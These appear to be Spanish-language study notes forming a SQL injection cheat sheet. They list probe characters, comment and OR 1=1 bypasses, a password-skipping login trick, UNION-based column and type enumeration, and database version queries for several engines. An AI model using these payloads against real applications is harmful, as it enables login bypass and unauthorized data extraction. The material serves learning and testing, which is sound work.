 ## ATAQUE: SQL INJECTION

#### IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

#### BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

#### UNION ATTACK

pre-req: numero de columnas y data type de cada columna

_COMO SABER EL NUMERO DE COLUMNAS ?

metodo_1: ' ORDER BY 1--
metodo_2: ' UNION SELECT NULL--

_COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL-- | se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

_IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

  NOTA: debe ser UNION attack. numero de columnas se respeta.

Microsoft >> SELECT @@version
MySQL >> SELECT @@version
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance
PostgreSQL >> SELECT version()


